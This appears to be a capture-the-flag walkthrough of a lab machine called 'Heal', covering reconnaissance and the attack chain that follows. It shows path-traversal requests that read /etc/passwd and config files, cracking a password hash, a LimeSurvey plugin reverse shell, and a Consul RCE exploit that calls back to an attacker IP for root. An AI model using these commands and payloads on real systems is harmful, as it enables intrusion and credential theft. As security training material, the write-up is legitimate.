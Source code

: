 # Heal

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

## ✅ Summary

| Step | User / Access | Technique Used                      | Result                                                                                     |
| :--- | :------------ | :---------------------------------- | :----------------------------------------------------------------------------------------- |
| 1    | `N/A`         | Port Scanning & Service Enumeration | Discovered HTTP (80) and SSH (22) open.                                                    |
| 2    | `N/A`         | Subdomain Enumeration               | Found `api.heal.htb` and `take-survey.heal.htb`.                                           |
| 3    | `N/A`         | Directory Fuzzing                   | Discovered admin panel and phpMyAdmin directories.                                         |
| 4    | `N/A`         | Arbitrary File Read                 | Accessed `/etc/passwd`, Rails `database.yml`, and SQLite DB to gather usernames/passwords. |
| 5    | `ron`         | Credential Use / SSH Login          | Logged in via SSH using password from database hash.                                       |
| 6    | `www-data`    | LimeSurvey RCE Plugin               | Uploaded malicious plugin, obtained webshell, and retrieved database config.               |
| 7    | `ron`         | SSH Local Port Forwarding           | Forwarded internal Consul port 8500 to local machine.                                      |
| 8    | `root`        | Consul v1.19.2 RCE                  | Exploited remote code execution to obtain root shell.                                      |


## Nmap Enumeration

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] 
❯ nmap -sSCV -Pn heal.htb
````

**Nmap Results:**

| Port   | State | Service | Version                          |
| ------ | ----- | ------- | -------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 |
| 80/tcp | open  | http    | nginx 1.18.0                     |

* HTTP title: `Heal`
* Service Info: Linux OS detected
* CPE: `cpe:/o:linux:linux_kernel`

**Observation:** Only SSH and HTTP open; web server appears to host multiple subdomains.

---

## Subdomain Enumeration

```bash
ffuf -u http://heal.htb/ -w ./fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.heal.htb" -mc 200
```

**Discovered subdomains:**

* `api.heal.htb`
* `take-survey.heal.htb`

Add discovered subdomains to `/etc/hosts`:

```text
10.10.11.46 api.heal.htb
10.10.11.46 take-survey.heal.htb
```

**Additional observation:** `/surveyA` route under `take-survey.heal.htb`.

---

## Directory Discovery (Dirsearch)

```bash
dirsearch -u "http://take-survey.heal.htb/index.php/" -t 50 -i 200
```

**Interesting directories found:**

| Directory                             | Notes                                        |
| ------------------------------------- | -------------------------------------------- |
| `/index.php/admin/mysql/index.php`    | Admin login page redirects to authentication |
| `/index.php/apc/index.php`            | Accessible                                   |
| `/index.php/pma/index.php`            | phpMyAdmin page                              |
| `/index.php/web/phpMyAdmin/index.php` | phpMyAdmin page                              |

* Admin login interface:
  `http://take-survey.heal.htb/index.php/admin/authentication/sa/login`

---

## Arbitrary File Reading

1. Register a user and access `/resume` page.
2. Intercept **Export as PDF** requests in Burp Suite.
3. Analyze the `/download` request; found **arbitrary file read vulnerability**:

```http
GET /download?filename=../../../../../etc/passwd
```

**Results:** Found usernames: `ralph`, `ron`.

4. Rails config file found:

```http
GET /download?filename=../../config/database.yml
GET /download?filename=../../storage/development.sqlite3
```

* Retrieved Ralph’s password hash from SQLite database.
* Cracked with **John**:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

* Successfully obtained Ralph’s password hash.
* Note: Ralph’s hash allowed **Ron** to log in via SSH.

**SSH Login:**

```text
username: ron
password: AdmiDi0_pA$$w0rd
```

---

## LimeSurvey RCE

1. Found **LimeSurvey RCE** exploit on GitHub: [Y1LD1R1M-1337 / Limesurvey-RCE](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE)
2. Modifications required:

   * Set `compatibilityversion` to match LimeSurvey v6.0
   * Configure **SHELL** with attacker's IP and port
3. Package exploit:

```bash
zip z0n_zip config.xml php-rev.php
```

4. Upload and activate plugin via:

```
http://take-survey.heal.htb/upload/plugins/z0n_hacker/php-rev.php
```

5. Spawn a reverse shell:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

* Access configuration file: `/var/www/limesurvey/application/config/config.php`
* Retrieved database username and password.

**Observation:** Only user `ralph` exists in database, but SSH login works for `ron` using the same password.

---

## Privilege Escalation

1. Upload **LinPEAS.sh** for enumeration.
2. Forward internal port 8500 via SSH:

```bash
ssh -L 8500:127.0.0.1:8500 ron@heal.htb
```

3. Found **HashiCorp Consul v1.19.2** running.
4. Search for known exploits → **RCE exploit**:

* Exploit-DB: `Hashicorp Consul v1.0 - Remote Command Execution (RCE)`
* Use local port 8500 to execute payload:

```bash
python exploit.py 127.0.0.1 8500 10.10.16.29 6666 0
```

* Listener receives a reverse shell.

* ACL token parameter ignored locally → exploit succeeds.

* Achieved **root shell** via Consul RCE.

---

**Takeaways:**

* Carefully inspect file download/export functionality for path traversal vulnerabilities.
* Rails configuration files can leak critical database credentials.
* Malicious plugin upload and webshells are common post-auth attack vectors.
* Internal services like Consul can provide easy privilege escalation if exposed.
